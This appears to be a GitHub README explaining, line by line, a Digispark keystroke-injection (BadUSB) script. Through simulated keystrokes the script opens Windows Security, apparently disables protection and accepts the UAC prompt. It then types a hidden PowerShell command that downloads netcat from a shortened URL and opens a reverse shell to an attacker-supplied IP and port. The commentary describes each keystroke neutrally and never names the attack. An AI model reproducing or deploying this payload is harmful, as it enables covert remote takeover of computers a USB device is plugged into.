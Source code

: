 <h2 color="#00979C"> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code color="#00979C">void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function simulates pressing the Enter key.</p>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Yet another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function simulates pressing the Space key.</p>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code color="#00979C">void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




